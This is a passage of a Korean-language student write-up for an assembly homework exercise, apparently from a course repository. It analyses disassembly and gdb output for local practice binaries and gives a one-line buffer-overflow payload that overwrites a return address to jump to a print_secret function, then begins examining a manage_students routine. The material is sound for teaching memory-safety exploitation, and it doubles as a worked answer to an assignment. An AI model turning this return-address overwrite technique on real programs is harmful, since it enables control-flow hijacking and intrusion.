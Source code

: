 ```
0x7fffffffe430:	0x0000000000000000	0x00000000004007be
```
`0x0000000000400798 <+133>:	add    $0x1,%rbx`에서 %rbx는 반복문의 조건문에 해당하는 rsp+48에 도달하고 이 값을 입력값으로 대체한다.   
해당값은 32와 비교되어 반복문의 종료를 야기한다. 즉, bufferoverflow를 일으키기위해선 이 입력값을 32보다 작은 값으로 넣으면 된다. 그리고 main함수로의 return address에 도달하면 print_secret의 주소값으로 대치시킨다.   
코드에서 볼 수 있듯 add 0x40 %rsp 외에도 push된 rbx가 있으므로, 56개의 32보다 작은 더미값을 넣고 이후 print_secret의 주소를 넣으면 된다.   
`prog.send_line("\x02"*56+"\xa6\x06\x40")` 
***
### 구조체 manage
```
   0x0000000000400968 <+0>:	push   %rbx
   0x0000000000400969 <+1>:	sub    $0x110,%rsp
   0x0000000000400970 <+8>:	mov    $0x0,%ebx
   0x0000000000400975 <+13>:	callq  0x400803 <usage>
   0x000000000040097a <+18>:	mov    $0x4,%esi
   0x000000000040097f <+23>:	mov    %rsp,%rdi
   0x0000000000400982 <+26>:	callq  0x400834 <safe_gets>
   0x0000000000400987 <+31>:	test   %eax,%eax
   0x0000000000400989 <+33>:	js     0x4009c6 <manage_students+94>
   0x000000000040098b <+35>:	movzbl (%rsp),%eax
   0x000000000040098f <+39>:	cmp    $0x41,%al
   0x0000000000400991 <+41>:	jne    0x4009a4 <manage_students+60>
   0x0000000000400993 <+43>:	mov    %ebx,%esi
   0x0000000000400995 <+45>:	lea    0x10(%rsp),%rdi
   0x000000000040099a <+50>:	callq  0x400886 <add_student>
   0x000000000040099f <+55>:	add    $0x1,%ebx
   0x00000000004009a2 <+58>:	jmp    0x400975 <manage_students+13>
   0x00000000004009a4 <+60>:	cmp    $0x55,%al
   0x00000000004009a6 <+62>:	jne    0x4009b6 <manage_students+78>
   0x00000000004009a8 <+64>:	mov    %ebx,%esi
   0x00000000004009aa <+66>:	lea    0x10(%rsp),%rdi
   0x00000000004009af <+71>:	callq  0x4008e7 <update_major>
   0x00000000004009b4 <+76>:	jmp    0x400975 <manage_students+13>
   0x00000000004009b6 <+78>:	cmp    $0x45,%al
   0x00000000004009b8 <+80>:	je     0x4009c6 <manage_students+94>
   0x00000000004009ba <+82>:	mov    $0x400af5,%edi
   0x00000000004009bf <+87>:	callq  0x400600 <puts@plt>
   0x00000000004009c4 <+92>:	jmp    0x400975 <manage_students+13>
   0x00000000004009c6 <+94>:	add    $0x110,%rsp
   0x00000000004009cd <+101>:	pop    %rbx
   0x00000000004009ce <+102>:	retq 
```
saferead와 마찬가지로 디셈블링은 불가능해보여 gdb디버깅으로 해결했다.   
```
(gdb) b * 0x40099f
Breakpoint 1 at 0x40099f
(gdb) r
Starting program: /sogang/under/cse20201593/assembly/hw2/2-5/manage 
<Menu>
A. Add a new student
U. Update the major of a student
E. Exit
A
Input student name (maxlen=8):
111
Input student major (maxlen=8):
111
Added a new student (ID = 0)

Breakpoint 1, 0x000000000040099f in manage_students ()
(gdb) x/36xg $rsp
0x7fffffffe320:	0x00007ffff7000041	0x0000000000000000
0x7fffffffe330:	0x00007f0000313131	0x00007f0000313131
```